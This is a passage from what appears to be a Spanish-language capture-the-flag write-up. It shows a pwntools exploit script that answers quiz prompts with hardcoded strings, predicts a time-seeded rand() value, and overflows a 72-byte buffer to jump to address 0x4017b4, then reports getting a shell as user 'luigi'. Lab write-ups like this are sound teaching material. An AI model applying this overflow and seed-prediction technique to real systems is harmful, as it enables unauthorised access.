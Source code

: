 ```python
    p.recvuntil(b"Respuesta:")
    p.sendline(b"satyagraha")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"caidadelmurodeberlin")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"cartamagna")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"luchacontraelapartheid")



    seed = int(time.time()) ^ 69
    libc = ctypes.CDLL("libc.so.6")
    libc.srand(seed)
    random_number = libc.rand() % 10000000
    random_number = int(random_number)
    random_bytes = bytes(str(random_number), 'utf-8')


    p.recvuntil(b"Respuesta:")
    p.sendline(random_bytes)

    

    offset = 72
    buffer = b"A"*offset
    funcion = p64(0x4017b4)
    payload = buffer + funcion

    p.recvuntil(b"continuar: ")
    p.sendline(payload)


    p.interactive()


if __name__ == '__main__':
    exploit()

```

Lo ejecutamos y recibimos una shell como luigi:

![Shell](images/subversion/shell.png)
